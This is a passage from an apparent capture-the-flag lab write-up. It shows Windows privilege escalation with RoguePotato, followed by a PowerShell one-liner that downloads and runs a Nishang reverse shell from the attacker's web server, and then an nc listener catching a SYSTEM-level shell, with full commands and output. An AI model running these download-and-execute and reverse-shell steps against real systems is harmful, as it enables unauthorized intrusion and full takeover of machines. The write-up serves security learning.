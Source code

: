 

### Shell

I'll start a Python webserver in the directory with a [Nishang reverse
shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
and then update the command to have powershell download and execute that
shell:



    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -e "powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )
    [+] RoguePotato gave you the SYSTEM powerz :D



There's a hit at the server:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.180 - - [08/Sep/2020 07:48:58] "GET /shell.ps1 HTTP/1.1" 200 -



And then a shell on `nc`:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.180.
    Ncat: Connection from 10.10.10.180:49728.
    Windows PowerShell running as user REMOTE$ on REMOTE
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\programdata>whoami
    nt authority\system

